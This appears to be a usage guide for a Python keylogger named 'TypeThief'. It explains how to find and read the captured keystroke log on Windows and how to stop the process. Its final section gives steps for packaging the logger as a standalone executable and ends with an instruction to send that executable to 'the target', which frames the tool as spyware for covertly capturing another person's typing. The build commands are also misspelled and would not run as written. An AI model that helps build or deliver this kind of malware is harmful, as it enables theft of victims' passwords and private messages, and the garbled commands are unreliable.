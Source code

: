 
Debugging Guide: finding and reading f_keystroke.txt
If you’re trying to locate and view the f_keystroke.txt file created by the TypeThief keylogger, follow these steps in Command Prompt (CMD) on Windows.

Step 1: Search for the File
Open Command Prompt:
Press Win + R, type cmd, and press Enter.
Navigate to your user directory (replace DELL with your username):
cmd
cd C:\Users\DELL
To find your username, type ECHO %USERNAME% in CMD if unsure.
Search for f_keystroke.txt across all subdirectories:
cmd
dir f_keystroke.txt /s /p
/s: Searches all subfolders.
/p: Pauses output for readability.
Look for the file’s location in the output (e.g., C:\Users\DELL\AppData\Roaming\TypeThief)

Step 2: Read the File
Change to the directory where f_keystroke.txt was found (example path):
cmd
cd C:\Users\DELL\AppData\Roaming\TypeThief
Replace the path with the one from Step 1 if it’s different.
Display the file’s contents:
cmd
type f_keystroke.txt
This shows the logged keystrokes (e.g., [ENTER]h[SPACE]e[SPACE]l[SPACE]l[SPACE]o).
(Optional) Open in Notepad for easier reading:
cmd
notepad f_keystroke.txt

Permissions Issue:
"If you get ‘Access is denied,’ right-click CMD, choose ‘Run as administrator,’ and retry."
Stopping the Keylogger:
"To stop the keylogger, press Esc (if it works) or use Task Manager to end the python.exe process."

Last but not least here is how you will compile the file
## step 1
1) pip pynstaller
2) pynstaller main.py --onefile
3) cd dist 
4) dir or ls to list files 
5) main.exe 
## send the main.exe to the target
